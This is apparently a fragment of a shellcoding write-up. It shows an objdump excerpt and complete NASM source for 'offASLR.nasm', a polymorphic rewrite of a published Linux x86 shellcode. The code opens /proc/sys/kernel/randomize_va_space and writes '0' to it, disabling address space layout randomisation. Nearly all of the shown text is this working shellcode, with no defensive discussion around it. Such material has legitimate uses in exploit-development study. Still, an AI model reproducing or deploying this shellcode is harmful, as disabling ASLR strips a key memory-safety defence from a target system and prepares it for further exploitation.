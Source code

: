 ```console
 804809a:       42                      inc    %edx
 804809b:       b0 04                   mov    $0x4,%al
 804809d:       e8 b4 ff ff ff          call   8048056 <syscallInt>
 80480a2:       b0 06                   mov    $0x6,%al
 80480a4:       e8 ad ff ff ff          call   8048056 <syscallInt>
```

## Final Assembly Code
```nasm 
; Filename: offASLR.nasm
; Author:   boku
; Purpose:  Polymorphic version of Jean Pascal Pereiras
;  Linux x86 ASLR deactivation - 83 bytes
; Original: http://shell-storm.org/shellcode/files/shellcode-813.php
global _start
section .text:

_start:

jump:
jmp short creat

syscallInt:
int 0x80
ret

creat:
xor    eax,eax
push   eax
push   0x65636170
push   0x735f6176
push   0x5f657a69
push   0x6d6f646e
push   0x61722f6c
push   0x656e7265
push   0x6b2f7379
push   0x732f636f
push   0x72702f2f
mov    ebx,esp
mov    al,0x8
call syscallInt

mov    ebx,eax
push   0x30
mov    ecx,esp
xor    edx,edx
inc    edx
mov    al,0x4
call syscallInt

mov    al,0x6
call syscallInt
```
